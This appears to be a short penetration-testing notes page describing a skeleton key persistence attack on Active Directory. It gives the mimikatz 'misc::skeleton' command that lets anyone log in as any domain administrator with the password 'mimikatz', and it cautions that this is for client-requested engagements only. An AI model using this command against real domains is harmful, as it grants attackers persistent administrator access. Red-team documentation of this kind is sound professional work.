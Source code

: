```yaml
---
description: Persistence utilizing a skeleton key attack.
---
```


# Skeleton Key

### Creating the Skeleton Key

`mimikatz !misc::skeleton`

This will allow you (by default) to log in with any domain administraotrs account using the password `mimikatz`

**Notes:** This should not be used unless requested by a client. A skeleton key cannot be removed until the domain controllers are restarted and it is possible for this attack to cause unintended effects.
